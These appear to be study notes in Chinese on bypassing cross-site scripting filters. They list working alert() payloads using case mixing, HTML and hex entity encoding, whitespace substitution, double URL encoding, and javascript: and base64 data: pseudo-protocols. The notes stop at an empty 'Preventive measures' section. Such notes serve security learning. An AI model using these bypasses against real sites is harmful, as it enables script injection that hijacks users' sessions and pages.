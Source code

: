 ## 算術運算符
`//` (註解) 被過濾時，可以利用算數運算符代替
```htmlmixed
<a href="javascript:alert(1)-abcde">xss</a>
```
## HTML features
- 不分大小寫
    - `<ScRipT>`
    - `<img SrC=#>`
- 屬性值
    - `src="#"`
    - `src='#'`
    - `src=#`
    - ```src=`#` ``` (IE)

## Encoding
Javascript自解碼機制
`<input type="button" onclick="document.write('&lt;img src=@ onerror=alert(1) /&gt;')" />`會成功`alert(1)`，因為javascript位於HTML中，在執行javascript前會先解碼HTML編碼，但若是包在`<script>`中的javascript，不會解碼HTML編碼
- HTML Entity `&entity_name;` z.B. `&lt;`
- Hex Code (分號可去掉)
```
<svg/onload=alert(1)>
<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```
- Decimal Code
```
&#;
```

## Bypass Whitespace
- `<img/src='1'/onerror=alert(0)>`

## Double Encoding
[OWASP page](https://www.owasp.org/index.php/Double_Encoding)
``` ? -> %3f -> %253f ```

# Knowledges
- 特殊標籤
    - 以下標籤中的腳本無法執行
    - `<title>`, `<textarea>`, `<iframe>`, `<plaintext>`, `<noscript>`...

- 偽協議
    - javascript:
        - `<a href=javascript:alert(1) >xss</a>`
    - data:
        - `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>xss</a>`

- Javascript中有三套編碼/解碼函數
    - escape/unescape
    - encodeURI/decodeURI
    - encodeURIComponent/decodeURICompinent

- fetch
    即使 `fetch` 會遇到 SOP 問題，但還是會送出 request
    ![](https://i.imgur.com/rqWZqrN.png)
    ![](https://i.imgur.com/JH9vOzR.png)


# Preventive measures
```